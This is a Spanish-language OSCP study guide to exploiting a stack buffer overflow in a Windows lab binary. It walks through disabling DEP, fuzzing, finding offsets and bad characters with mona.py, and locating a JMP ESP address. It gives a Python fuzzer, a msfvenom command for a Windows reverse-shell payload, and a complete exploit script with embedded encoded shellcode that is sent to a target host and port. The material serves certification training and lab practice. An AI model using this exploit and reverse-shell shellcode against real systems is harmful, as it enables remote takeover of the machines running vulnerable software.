




Metodología OSCP BOF
Índice
- Objetivo
- Configuración de ambiente de práctica
- Firewall
- Deshabilitado de DEP
- Instalación de herramientas (Mona)
- Generación de workspace para
mona.py(opcional) - Fuzzing
- Plantilla de fuzzer
- Identificar Bad Chars
- Manual
- Automático
- Búsqueda de dirección
- Búsqueda de apuntador en dll
- Generación de shellcode
- Generación de exploit
- Ejemplo de exploit final
Objetivo
Como parte de la práctica para el examen me di a la tarea de realizar esta guía para futuras consultas y aclaración de dudas, esperando que sirva de ayuda para cualquiera que se este preparando para la certificación. Adicional, para tener un compendio más práctico realice una síntesis de los comandos utilizados disponibles en esta Cheat Sheet.
Configuración de ambiente de práctica
- Deshabilitar firewall y/o habilitar reglas para comunicación a través de red.
- Deshabilitar protección DEP de Windows.
- Instalación de herramientas (binario, immunity debugger,
mona.py). - Generación de workspace para
mona.py.
Firewall
Traza ICMP
En la sección de configuración avanzada habilitar reglas tanto de entrada como de salida de ICMP v4 y v6 para permitir comunicación entre la máquina que se ocupará para debuggear el binario y la máquina de donde se lanzará el exploit.

Deshabilitado de DEP
En un command prompt como administrador ejecutar: bcdedit.exe /set {current} nx AlwaysOff para deshabilitar la prevención de ejecución de datos (DEP). Después de ejecutarlo y reiniciar el sistema se puede validar que se deshabilitó correctamente entrando a Panel de Control > Sistema y seguridad > Sistema > Configuración avanzada del sistema > Opciones avanzadas > Configuración (de rendimiento) > Prevención de ejecución de datos este deberá salir sombreado de gris.

- Configuración avanzada del sistema.
- Configuración de rendimiento.
- Pestaña de prevención de ejecución de datos.
- Sombreado gris de correcto deshabilitado.
Instalación de herramientas (Mona)
Para añadir el script de mona.py a inmmunity debugger, es necesario descargar el script del repositorio y meterlo en la ruta C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands.

Generación de workspace para mona.py (opcional)
Para facilitar el uso de mona.py, se puede generar un entorno de trabajo (a secas es una carpeta) que contendría lo que mona.py genere a partir de los comandos que se utilicen (payloads, patrones, badchars, etc). Ejecutando !mona config -set workingfolder C:\Users\SrRequiem\Desktop\%p se indicaría el lugar y a partir del primer comando de mona.py que genere archivos, se podrá ver reflejado en el sistema de archivos.
Fuzzing
En esta sección se realiza la búsqueda del punto de quiebre del binario. Identificando el número de caracteres que causen un fallo de segmentación.
Plantilla de fuzzer
#from pwn import *
import socket, sys, time
if len(sys.argv) < 2:
print "\n[!] Uso: python " + sys.argv[0] + "<ip-address> " + "<remote-port>\n"
sys.exit(0)
# Variables globales
ip_address = sys.argv[1]
rport = int(sys.argv[2])
if __name__ == '__main__':
contador = 100
#p1 = log.progress("Data") Log de datos en pwntools
while True:
#p1.status(f"Enviando {contador} bytes.") Log de datos en pwntools
print "Enviando %s bytes." % contador
buffer = 'A' * contador
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_address, rport))
data = s.recv(1024)
#s.send("USER srrequiem\r\n")
#data = s.recv(1024)
s.send("%s\r\n" % buffer)
data = s.recv(1024)
contador += 100
#En algunas ocasiones no suele romperse la conexion lo que evita entrar
#al codigo de la excepcion por lo que se puede considerar meter un sleep
#para visualizar en que valor de la iteracion se pausa la ejecucion del binario
time.sleep(1)
except Exception as ex:
print "\n[!] Ha habido un error de conexion\n"
print ex
sys.exit(1)
Por medio del script se puede buscar el cambio del EIP de manera automática.

Generacion de patrón
msf-pattern_create -l <longitud de bytes>
!mona pattern_create <longitud de bytes>
Después de provocar el fallo con el patrón, la dirección EIP se sustituiría con un valor del segmento de nuestro patrón. El valor que contenga EIP ahora lo identificaremos para saber el offset específico.

Identificación offset
msf-pattern_create -l <EIP>
!mona pattern_offset <EIP>

- Offset.
- EIP.
Nota: Siempre corroborar con un payload propio modificando después del offset un valor que se identifique facilmente. Ejemplo: 1052 'A' y 4 'B' en este caso el EIP valdría 42424242
Identificar Bad Chars
Manual
Si bien es bueno saber el proceso que se realiza, es una tarea que consume mucho tiempo y que existe una gran posibilidad de cometer errores al realizarlo ya que es muy fácil perder algún byte de vista muy fácil.
El proceso se centra en enviar el payload con los badchars y directamente seguir los caracteres ASCII obtenidos del ESP y buscar cuales son los que no se visualizan correctamente, identificandolos así uno a uno. Se puede generar la colección de bytes con mona.py con el comando !mona bytearray dentro de Immunity Debugger para tener la colección y poder incorporarla al payload.
Colección plana
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
Colección en arreglo
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
Después de enviar el payload con los badchars y lograr la pausa del programa podemos seguir el contenido del ESP dándo click derecho en el registro y seleccionando la opción Follow in Dump, de la sección ubicada en la esquina inferior izquierda se nos desplegará el contenido del registro para poder identificar los badchars manualmente.

Se anexan ejemplos de cómo se verían los badchars en el dump de hexadecimal (sección inferior izquierda de Immunity Debugger).


Automático
El proceso se puede optimizar usando mona.py de manera iterativa, con los siguientes comandos mona.py nos devolverá los badchars identificados.
!mona bytearray: Generará archivos con arreglo de badchars.!mona compare -f <ubicacion de byte array .bin> -a <dirección de ESP>: Comparará los badchars contenidos respecto al payload ubicado en elESP(recordando que payload = filler + eip + badchars).!mona bytearray -cpb '\x00': Generará archivos con arreglo de badchars exceptuando los indicados.- Repetir proceso hasta encontrar todos los badchars.
Búsqueda de dirección
Aquí se realiza la búsqueda de la instrucción JMP ESP (valores hexadecimales \xff\xe4) en las dlls del binario, siempre tratando de identificar aquellas que no cuenten con protecciones (todas la banderas dadas por mona.py en False).
Nota: se puede hacer uso de msf-nasm_shell para ver el valor de los OP codes (en este caso jmp ESP) en caso que se requiera.

Comando de mona.py
!mona modules
Ejemplo

Búsqueda de apuntador en dll
Aquí se realiza una búsqueda de los apuntadores contenidos en la dll identificada con el valor de la instrucción \xff\xe4.
Comando de mona.py
!mona find -s "\xff\xe4" -m <nombre de dll>
Se desplegará una lista de direcciones de memoria que se pudieran utilizar, sin antes considerar 2 cosas. La descripción de la tabla contenerá direcciones con permisos de lectura y ejecución (PAGE_EXECUTE_READ); y de escritura solamente (PAGE_READ_ONLY), hay que tomar en cuenta sólo aquellas que cuenten con ejecución (PAGE_EXECUTE_READ). Y también desplegará las protecciones con las que cuenta la dll, tomar de nuevo en cuenta aquellas que tengan todo deshabilitado (False).

- Comando.
- Direcciones útiles para usar en EIP (buscar aquellas que en el valor de la dirección no contenga ningún badchar).
- Permisos.
- Protecciones.
Generación de shellcode
Aquí se generará el shellcode a utilizar después de la sustitución del valor que se asigne a la EIP.
Comando de ejemplo
msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -i 3 -f python > scode.txt
Tener en consideración:
- Sistema operativo.
- Arquitectura.
- Payload.
- Formato (python, c, exe, etc).
- Variables de escucha y/o comando a ejecutar.
- Encoding (extra: -i 3 para número de iteraciones para encodear).
- BadChars.
- Función de salida (para evitar que el proceso termine usar seh o thread).
Si se da el caso que los badchars sean bastantes tal que la generación del shellcode no se realice satisfactoriamente, considerar quitar el encoder x86/shikata_ga_nai para que automáticamente se utilicé el encoder que cumpla con los requisitos (colección de badchars a evitar).
Generación de exploit
Ejemplo de exploit final
from struct import pack
import socket, sys
if len(sys.argv) < 2:
print "\n [!] Uso: python " + sys.argv[0] + "<ip-address>" + "<remote-port> \n"
sys.exit(0)
ip_address = sys.argv[1]
rport = int(sys.argv[2])
shellcode = b""
shellcode += b"\xb8\x36\xda\x75\x0f\xda\xd5\xd9\x74\x24\xf4\x5b\x2b"
shellcode += b"\xc9\xb1\x5f\x83\xc3\x04\x31\x43\x10\x03\x43\x10\xd4"
shellcode += b"\x2f\xce\x68\xaf\x10\x8c\xac\x01\x49\x9b\x76\x69\x30"
shellcode += b"\x55\xbe\x20\x9d\xa4\x1a\x57\x9d\x2d\x66\x54\xfb\xa0"
shellcode += b"\x75\xc8\xf6\x32\x68\x08\x59\x9b\x32\x1d\xb8\x35\x8a"
shellcode += b"\x2e\x1c\xec\x8c\x49\xea\xa6\xae\xc5\xfb\xef\x11\xbd"
shellcode += b"\xa9\x1f\x9b\xf3\x51\xc8\x4a\x27\x35\xa2\xd1\x60\x03"
shellcode += b"\x55\x72\xf5\xcc\x0b\xd2\x2a\xda\x41\x4d\x5f\x4f\xb4"
shellcode += b"\x2f\xbb\xc6\x88\x45\x5f\x3e\x11\x08\x86\x09\x5d\xe7"
shellcode += b"\xf8\x11\x49\x5c\x12\xdc\x8e\x66\xa0\x1e\x1c\x10\x0a"
shellcode += b"\xf8\xa7\xac\x6b\x8d\xd4\x2a\xaa\xe6\x5e\x9d\xbe\x04"
shellcode += b"\x42\x52\xe0\x71\x86\xc5\xa6\xa2\xff\xdf\xcb\x75\x28"
shellcode += b"\x2f\x5b\x05\x57\x39\x45\xd2\x7e\x05\xd6\x91\xfd\x46"
shellcode += b"\x2c\x31\x66\xea\xbe\x3c\xc8\x10\x96\xf6\xcc\x31\xbc"
shellcode += b"\x56\x43\x24\x1f\x86\xed\xf2\x59\xa2\x38\x9c\x4f\xa1"
shellcode += b"\xc6\x58\x71\xb7\x81\x9d\xe3\x25\xb7\xc7\xf4\x5c\xa3"
shellcode += b"\x01\xd4\x5e\xf2\x1d\x92\x57\x08\x65\xd9\x62\xdf\xb4"
shellcode += b"\xdf\xaa\xb8\x6a\x61\x82\x87\xfa\x27\x0c\xe9\x49\x46"
shellcode += b"\xea\x50\x51\xb6\x6b\xc9\xbc\xe4\x95\xff\xf8\x36\x94"
shellcode += b"\x3b\xbd\x24\xd9\x9c\xb5\x1e\x77\xcb\x31\x84\x2a\xe3"
shellcode += b"\xca\xac\xd7\x8c\x12\xed\xa0\x53\xfa\xbc\x94\xf3\x9b"
shellcode += b"\xe5\x8a\xac\xf3\x48\x1a\x39\x2e\x63\x5a\x68\xe9\x85"
shellcode += b"\x93\xde\x3a\x22\x77\x2a\xac\xa1\xfa\x96\x7f\x9f\x95"
shellcode += b"\x6f\xa3\xe4\x13\x41\x9a\xe8\xf6\x97\x6b\x2d\x31\x68"
shellcode += b"\x9c\xb1\x2f\xab\xa3\xf5\x56\xe9\xf5\xa3\x21\xe9\x9c"
shellcode += b"\x19\xaf\x10\x57\xfb\x80\x0e\x73\x48\x84\xb1\xb0\xb0"
shellcode += b"\x83\x67\x88\xb5\x1d\x0e\x73\xeb\xa1\xd1\xdc\xa2\xe9"
shellcode += b"\x76\xcc\xd0\x27\x6b\xed\x5d\xfc\x02\xcb\x8f\xff\xc3"
shellcode += b"\xb2\x8f\xf3\xee\x96\x9a\xec\xb1\x73\x55\x47\x82\x70"
shellcode += b"\x10\x32\x53\xbb\xfa\x83\x38\x3b\xb0\xea\xd1\xe4\x6e"
shellcode += b"\x2f\x7d\x23\xc5\xd9\x5d\xfb\x48\x06\x3d\x4f\x33\xfe"
shellcode += b"\x03\x9c"
if __name__ == "__main__":
#buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode
buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x90" * 16 + shellcode
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_address, rport))
s.send("%s\r\n" % buffer)
except Exception as ex:
print "[!] Ha habido un error de conexion"
print ex
sys.exit(1)
Consideraciones
Si bien se pueden utilizar algunos "trucos" para caer en la dirección donde se encuentra el shellcode como lo son los NOPs (\x90) se puede ocupar un desplazamiento de pila para restar posiciones, y jugar un poco con los valores. Dentro de msf-nasm_shell se puede invocar la instrucción sub esp, <valor en hexadecimal>. Ejemplo:

En este caso se obtendría el valor 83EC10 como código de operación para el desplazamiento de 10 unidades. quedando la línea de construcción del payload como: buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode en lugar de los NOPs.